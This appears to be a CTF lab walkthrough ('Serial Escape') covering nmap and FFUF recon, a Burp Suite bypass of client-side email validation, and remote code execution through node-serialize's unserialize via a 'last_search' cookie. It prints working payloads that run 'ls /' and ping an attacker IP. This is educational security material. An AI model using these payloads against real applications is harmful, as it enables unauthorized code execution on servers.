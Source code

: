# Serial Escape

To start with you can run a simple NMAP scan against the target.
```
nmap -sV -v <target IP>
```
![image](./images/2024-09-25_17h30_17.png)

Based on the NMAP results, there are two open ports: SSH (22) and HTTP (80).
If you navigate to the target IP address on a browser you will see a page as follows.

![image](./images/2024-09-25_17h30_48.png)

Based on the error message, you can understand that the base URL "/" requires authentication to visit.

To discover directories on the web application, you can use a directory brute-forcing tool like FFUF. This revealed an additional directory named 'dev', which also requires authentication.

![image](./images/2024-09-25_17h29_25.png)

When you navigate to the registration page to create a new user, you will see that the form requires you to enter an email address ending with "@oracle.az" only.

![image](./images/2024-09-25_17h31_16.png)

Upon registering, the application sends an OTP code to the provided email for verification, ensuring that users cannot create accounts with fake email addresses. However, after further inspection, you can notice that the email validation (checking if it ends with '@oracle.az') is only performed on the client side.

![image](./images/2024-09-25_18h56_23.png)

So, you can fill out the registration form with dummy inputs, capture the network traffic with Burp Suite, and replace the email address with one of your choice (either an email you own or a temporary/disposable email) to receive the OTP code and pass verification.
For demonstration purposes, a temporary email was used.
https://temp-mail.org/

![image](./images/2024-09-25_17h36_49.png)

Once you have placed a valid email address you can forward the traffic, which will send an OTP to the provided address.

![image](./images/2024-09-25_17h38_46.png)

To complete the registration process, enter the OTP code and submit.

![image](./images/2024-09-25_17h39_16.png)
![image](./images/2024-09-25_17h39_31.png)

As a result, you will be redirected to the login page with a success message indicating that you have successfully created a new user.
Having a user on the web application you can log in now. On the home page, you will see the first flag for the CTF.

![image](./images/2024-09-25_17h39_50.png)

Since you now have a valid user, you can visit the "dev" directory discovered earlier while directory brute-forcing with FFUF.
On the "dev" directory you will see two files: notes.txt and source.zip

![image](./images/2024-09-25_17h41_34.png)

The notes.txt file contains a message titled 'Security Alert,' highlighting a critical vulnerability in the application originating from a package called ```node-serialize```.
According to this message, you can understand that your next step will be downloading the source code of the web app (```/dev/source.zip```) and analyzing it to move the attack further. 

![image](./images/2024-09-25_17h41_42.png)

To begin your code review, start with the ```app.js``` file. In the ```app.js``` file, you'll also notice a warning comment regarding the ```node-serialize``` package.

![image](./images/2024-09-25_17h43_07.png)

To identify what the node-serialize package is vulnerable to, you can search online. You'll discover that it has a critical vulnerability: arbitrary remote code execution, which is explained in the following link. This vulnerability specifically affects the ```unserialize``` function, according to the explanation.
https://security.snyk.io/vuln/npm:node-serialize:20170208

Knowing that the web application is vulnerable to remote code execution, you can examine the source code further to find out where and how the ```node-serialize``` package is used. By searching in the ```app.js``` file, you'll find that the vulnerable package is passed to the ```home``` router after being imported.

![image](./images/2024-09-25_17h45_54.png)

To understand how and for what functionality of the web application the ```node-serialize``` package is used, open the JavaScript file responsible for the home page.
Upon reviewing the code, two key points emerge:
* When a user searches for a keyword, it is taken from the request, serialized, and stored in a cookie named ```last_search```.
* During each GET request to the home page, the value of the ```last_search``` cookie is retrieved, **_UNSERIALIZED_**. (which is the vulnerable part), and passed to the client side for display.

This functionality allows users to see their most recent search by storing its value in a cookie.

![image](./images/2024-09-25_17h54_27.png)

In the image below, you can see an example of the usage of this functionality.

![image](./images/2024-09-25_18h12_04.png)

As your next step, you have to craft such a payload that will execute system commands on the target website.
You can find an example payload from the link provided earlier.

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

To adapt this payload for our target application, we need to remove the dictionary structure, enclosing double quotes, and any escaped characters, keeping only the core payload.

To test if the payload works, we can attempt to ping our attacking machine and verify whether the command executes. To detect the ping requests, start a ```tcpdump``` on the attacker machine to monitor ICMP traffic.
```
_$$ND_FUNC$$_function (){require('child_process').exec('ping 10.10.128.2 -c 3', function(error, stdout, stderr) { console.log(stdout) });}()
```

Keep in mind that for successful code execution, the payload must first be sent to the web application. After that, you need to send another search keyword. This way, the payload becomes your previous search query and gets unserialized when accessing the home page. The vulnerability, as mentioned earlier, lies in the unserialize function of the package, not the serialize function.

![image](./images/2024-09-25_18h22_19.png)



![image](./images/2024-09-25_18h24_52.png)
![image](./images/2024-09-25_18h26_10.png)
![image](./images/2024-09-25_18h30_58.png)
![image](./images/2024-09-25_18h33_34.png)
![image](./images/2024-09-25_18h34_12.png)
![image](./images/2024-09-25_18h35_11.png)
